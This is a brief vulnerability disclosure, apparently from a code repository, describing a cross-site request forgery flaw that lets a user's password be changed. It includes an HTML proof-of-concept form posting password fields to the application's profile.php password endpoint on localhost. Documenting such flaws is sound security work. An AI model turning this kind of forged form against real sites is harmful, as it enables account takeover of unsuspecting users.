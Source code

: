 # Change Password CSRF
Allows for a users password to be changed through CSRF.

## PoC:
```html
<link href="http://localhost/public/themes/Sand/assets/css/sand.css" rel="stylesheet">

<form id="LAYER_form" action="http://localhost/profile.php/cmd/password" method="POST" style="padding: 35px;">
    <label for="current_password">Current Password</label>
    <input type="password" name="current_password" id="current_password">
    <label for="new_password">New Password</label>
    <input type="password" name="new_password" id="new_password">
    <br><br>
    <input type="submit" name="edit" value="Save Changes">
</form>
```
